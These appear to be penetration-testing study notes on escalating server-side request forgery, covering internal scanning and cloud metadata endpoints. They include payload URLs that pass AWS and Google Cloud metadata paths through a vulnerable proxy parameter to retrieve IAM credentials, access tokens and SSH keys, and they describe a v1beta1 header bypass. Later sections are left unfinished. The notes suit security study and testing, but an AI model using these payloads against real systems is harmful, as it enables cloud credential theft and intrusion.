

Escalating the Attack (How can be used)
• Perform Network Scanning
You can use Burp Intruder to scan for example the subnetwork 192.168.0.X with Burp Intruder as is been done in the chapter SSRF attacks against other back-end systems
• Perform Port Scanning on the machine of the network
Instead of use http://192.168.0.2 use 192.168.0.2:21, 192.168.0.2:22, 192.168.0.2:53, ...
◇ Open Port

◇ Closed Port

Information Gathering Useful for SSRF
• Amazon Elastic Computer Cloud
Amazon Elastic Compute Cloud (EC2), offers an instance metadata tool that enables EC2 instances to access data about themselves by querying the API endpoint at 169.254.169.254. These API endpoints are accessible by default unless network admins specifically block or disable them
https://public.example.com/proxy?url=http://169.254.169.254/latest/meta-data/
This could reveal sensitive information such as API keys, Amazon S3 tokens (tokens used to access Amazon S3 buckets), and passwords.
◇ http://169.254.169.254/latest/meta-data/ → returns the list of available metadata that you can query.
◇ http://169.254.169.254/latest/meta-data/local-hostname/ → returns the internal hostname used by the host.
◇ http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME → returns the security credentials of that role.
◇ http://169.254.169.254/latest/dynamic/instance-identity/document/ → reveals the private IP address of the current instance.
◇ http://169.254.169.254/latest/user-data/ → returns user data on the current instance.
◇ COMPLETE API DOCUMENTATION: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
• Google Cloud
Google Cloude APIv1 to protect against SSRF require one of those headers. This most of the time work because during an SSRF, we cannot specify headers
Metadata-Flavor: Google
X-Google-Metadata-Request: True
BUT this protection can be easily bypassed by querying API v1beta1 instead of APIv1
https://public.example.com/proxy?url=http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
◇ http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token → returns the access token of the default account on the instance.
◇ http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys → returns SSH keys that can connect to other instances in this project.
◇ COMPLETE API DOCUMENTATION: https://cloud.google.com/compute/docs/metadata/querying-metadata
Note: that the API v1beta1 was deprecated in 2020 and is in the process of being shut down. In the future, you might be required to query metadata with APIv1 and will need to find a way to forge the required headers to request instance metadata for targets that use Google Cloud.
• DigitalOcean
◇ http://169.254.169.254/metadata/v1/ → list of metadata endpoints
◇ ....
• Kubernetes
◇ https://kubernetes.default
◇ https://kubernetes.default.svc/metrics
◇ ...